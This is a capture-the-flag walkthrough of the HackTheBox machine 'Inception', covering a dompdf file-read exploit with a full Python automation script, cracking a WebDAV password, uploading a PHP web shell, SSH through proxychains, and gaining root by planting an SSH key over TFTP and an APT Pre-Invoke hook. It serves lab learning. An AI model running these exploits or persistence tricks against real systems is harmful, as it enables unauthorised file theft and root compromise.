

I had mixed fellings with this box. Is not only just web exploration and you must have a good CTF experience to get it. Particuarly I did not enjoy it.

The first shell you get with a webdav exploit and proxychains. The root you get with a crontab exploration.

The script to get LFI on files is on the post.

Hope you enjoy.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.67
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


Default page, looking at the source code we found something interesting


Seems to be a folder, so we access it


We search for some exploit for `dompdf` and found some ones


We see the version and it matches


We download and see how it works


We send the request to burp to better work on it


And now trigger the vulnerability


Here it is


Now, let's automate it.

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='File to be read', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_lfi.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto LFI dompdf - Inception HackTheBox

import argparse
import requests
import sys
import re
import base64

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

#Function to decode base64
def b64d(s):
    return base64.b64decode(s).decode()

# Function to get the base64 content
def readFile(rhost,file):
    print("[+] Let's get the file you want !! [+]")
    print("[+] The file is %s !! [+]" %file)
    print(" ----------------------------------------- ")
    url = "http://%s:80/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=%s" %(rhost,file)
    response = r.get(url, proxies=proxies)
    base64_file= re.search('\[\(.*\]', response.text).group(0)
    base64_file = base64_file.removeprefix('[(').removesuffix(')]')
    base64_decoded = b64d(base64_file)
    print(base64_decoded.strip())
    print(" ----------------------------------------- ")
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='File to be read', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    file = args.file

    '''Here we call the functions'''
    # Let's read the file
    readFile(rhost,file)

if __name__ == '__main__':
    main()
```

After some enum, we found the webdav config file

`/etc/apache2/sites-enabled/000-default.conf`


`AuthUserFile /var/www/html/webdav_test_inception/webdav.passwd`


We crack it

```sh
john hash.txt --wordlist=pass.txt
```


Now we upload a php shell in it

```
cadaver http://10.10.10.67/webdav_test_inception
webdav_tester
babygurl69
put 0x4rt3mis.php
```


We test, and we have RCE


We did not get a reverse shell because this box is in another ip range


So, we start enumerating the web server


We found a credential


`VwPddNh7xMZyDQoByQL4`

# Cobb Shell

We found a local user in it with ssh


So we access it with proxychains


```sh
proxychains ssh cobb@127.0.0.1
```

Logged in


Now, let's make our privilege escalation

# Cobb --> Root

We try the sudo -l command


But it's just a hint


We make a port scan with nc on the gw

```sh
nc -zv 192.168.0.1 1-100 &> results && cat results | grep succeeded
```


We login ftp server with anonymous


We get the crontab


And see a command running each 5 minutes


What is useful is that we are able to run commands everytime apt-update runs by placing a file inside /etc/apt/apt.conf.d!!

Our format for the file content is: `APT::Update::Pre-Invoke {"command"};` and we will need to name our file with numbers prefixed. So we'll use 00command as our file name.

We create a ssh key


Copy the key to the server

```sh
tftp 192.168.0.1
put id_rsa.pub /root/.ssh/authorized_keys
```


We create the command file

```sh
echo "APT::Update::Pre-Invoke {\"chmod 600 /root/.ssh/authorized_keys\"};" > /etc/apt/apt.conf.d/00command
```


And send to the server

```sh
tftp 192.168.0.1
put /etc/apt/apt.conf.d/00command /etc/apt/apt.conf.d/00command
```


We wait 5 minutes and ssh in

```sh
ssh root@192.168.0.1
```

